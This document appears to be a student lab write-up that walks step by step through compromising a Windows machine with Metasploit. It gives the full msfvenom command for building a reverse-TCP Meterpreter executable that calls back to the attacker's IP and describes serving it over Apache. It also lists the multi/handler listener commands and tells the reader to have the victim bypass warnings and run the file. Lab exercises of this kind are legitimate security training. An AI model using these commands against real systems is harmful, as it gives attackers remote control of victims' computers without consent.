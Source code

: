 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![image](https://github.com/user-attachments/assets/b4fed159-5971-41f2-b1bf-c6eb03319f44)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:

![image](https://github.com/user-attachments/assets/11ef69be-b46b-4214-b2c9-c4ca96f9edae)

copy the fun.exe into the apache /var/www/html folder

## OUTPUT:

![image](https://github.com/user-attachments/assets/f54131ee-bc01-4fd2-89a6-d6e54ee82b5d)

Check the status of apache2

## OUTPUT:

![image](https://github.com/user-attachments/assets/932472df-eec9-41e9-9dd1-746a58e3fb34)

Invoke msfconsole:

## OUTPUT:

![image](https://github.com/user-attachments/assets/d44f4801-82e5-4729-a5da-5e71bc3f0d00)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![image](https://github.com/user-attachments/assets/e5877fb1-8005-47fa-9b17-050330047cde)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/user-attachments/assets/78b39412-cbf4-4bfc-a629-0d7efa9b6328)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/user-attachments/assets/addfb2a1-0df1-4b75-b0de-03c7c586de43)

Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/user-attachments/assets/8bd954e5-dd06-4212-821a-8c6631c2cc36)

On kali give the command exploit

![image](https://github.com/user-attachments/assets/d77517be-742e-4a67-9175-58b419f931f9)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/user-attachments/assets/529d7e7b-bfc9-469d-b281-1686ae158b79)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
